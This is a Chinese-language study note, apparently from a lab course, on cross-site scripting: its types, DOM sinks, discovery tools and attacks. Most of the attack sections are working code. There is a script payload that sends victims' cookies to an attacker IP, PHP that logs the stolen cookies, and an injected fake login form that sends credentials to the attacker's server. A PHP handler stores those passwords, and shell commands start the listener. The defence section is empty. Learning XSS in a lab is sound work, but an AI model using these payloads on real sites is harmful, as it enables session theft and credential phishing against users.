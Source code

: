 ```yaml
---
tags:
  - 漏洞
  - xss
  - 笔记
---
```


# xss基础


### 存储型


### 反射型

有两种类型的`非持久性 XSS` 漏洞：`反射型 XSS，`由后端服务器处理，以及`基于 DOM 的 XSS`，它完全在客户端处理，永远不会到达后端服务器。与持久性 XSS 不同，`非持久性 XSS` 漏洞是暂时的，不会在页面刷新后持续存在。因此，我们的攻击只影响目标用户，不会影响访问该页面的其他用户。

当我们的输入到达后端服务器并在未经过过滤或清理的情况下返回给我们时，就会发生`反射型 XSS` 漏洞。在许多情况下，我们的整个输入可能会返回给我们，例如错误消息或确认消息。在这些情况下，我们可能会尝试使用 XSS 有效负载来查看它们是否执行。但是，由于这些通常是临时消息，一旦我们从页面移动，它们就不会再次执行，因此它们是`非持久的`。

**HTBA的例子-cookie**

需要一个可以接收cookie的服务器，可以拿python直接创建一个：
```bash
python3 -m http.server
```

还需要一个可以执行获取cookie的php文件：
```php
<?php $cookie = $_GET['cookie']; 
$ip = getenv('REMOTE_ADDR'); 
$time = date('Y-m-d g:i:s'); 
$referer = getenv('HTTP_REFERER'); 
$fp = fopen( 'cookie.txt', 'a'); 
fwrite($fp,"IP: ".$ip." │ Date And Time: ".$time." | Referer: ".$referer." | Cookie: ".$cookie.'|||'); 
fclose($fp); 
?>
```

然后就是payload:
```javascript
<script>document.write('<img src="http://10.10.16.30:8000/getcookie.php?cookie='+document.cookie+'" />');</script>
```

把payload输入文本框就可以拿到cookie了。

### DOM xss

`反射型 XSS` 通过 HTTP 请求将输入数据发送到后端服务器，而 DOM XSS 则完全通过 JavaScript 在客户端进行处理。当使用 JavaScript 通过`文档对象模型 （DOM）` 更改页面源时，会发生 DOM XSS。

另一方面，`Sink` 是将用户输入写入页面上的 DOM 对象的函数。如果 `Sink` 函数没有正确清理用户输入，则容易受到 XSS 攻击。一些常用的 JavaScript 函数可以写入 DOM 对象：
- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

此外，一些写入 DOM 对象的 `jQuery` 库函数是：
- `add()`
- `after()`
- `append()`

如果我们尝试之前一直在使用的 XSS 有效负载，我们将看到它不会执行。这是因为 `innerHTML` 函数不允许在其中使用 `<script>` 标签作为安全功能。尽管如此，我们还使用许多其他不包含 `<script>` 标记的 XSS 有效负载，例如以下 XSS 有效负载：
```html
<img src="" onerror=alert(window.origin)>
```
上面的代码行创建了一个新的 HTML 图像对象，该对象具有一个 `onerror` 属性，该属性可以在找不到图像时执行 JavaScript 代码。因此，由于我们提供了一个空的图像链接 （`“”`），因此我们的代码应该始终执行，而不必使用 `<script>` 标签

### 自动发现

几乎所有的 Web 应用程序漏洞扫描程序（如 [Nessus](https://www.tenable.com/products/nessus)、[Burp Pro](https://portswigger.net/burp/pro) 或 [ZAP](https://www.zaproxy.org/)）都具有检测所有三种类型的 XSS 漏洞的各种功能

一些可以帮助我们发现 XSS 的常见开源工具是 [XSS Strike](https://github.com/s0md3v/XSStrike)、[Brute XSS](https://github.com/rajeshmajumdar/BruteXSS) 和 [XSSer](https://github.com/epsylon/xsser)。

### 手动发现

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) 上的 XSS 有效负载列表或 [PayloadBox](https://github.com/payloadbox/xss-payload-list) 中的有效负载列表


# xss攻击

### 页面污损

嘲讽专用，慎重学习，容易被打死

### 钓鱼

xss居然可以钓鱼

XSS 网络钓鱼攻击的一种常见形式是通过注入虚假登录表单，将登录详细信息发送到攻击者的服务器，然后可以使用该服务器代表受害者登录并控制他们的帐户和敏感信息。

注入代码：
```html
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP10.10.16.28:8000/><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

删除掉image url的代码：

```html
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

删除url表单：
```javascript
document.getElementById('urlform').remove();
```

image url的代码：
```html
<form role="form" action="index.php" method="GET" id="urlform">
                <input type="text" placeholder="Image URL" name="url">
            </form>
```

本机服务器处理的php代码：

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

建立php监听服务器;
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```

### 会话劫持



# xss防护



# 实战

**xss获取cookie**
```javascript
<script>document.write('<img src="http://192.168.211.1/xss/getcookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');</script>
```

自己服务器运行的php接收文件：
```php
<?php $cookie = $_GET['cookie']; 
$ip = getenv('REMOTE_ADDR'); $time = date('Y-m-d g:i:s'); 
$referer = getenv('HTTP_REFERER'); 
$fp = fopen( 'cookie.txt', 'a'); fwrite($fp,"IP: ".$ip." │ Date And Time: ".$time." | Referer: ".$referer." | Cookie: ".$cookie.'|||'); 
fclose($fp); 
?>
```


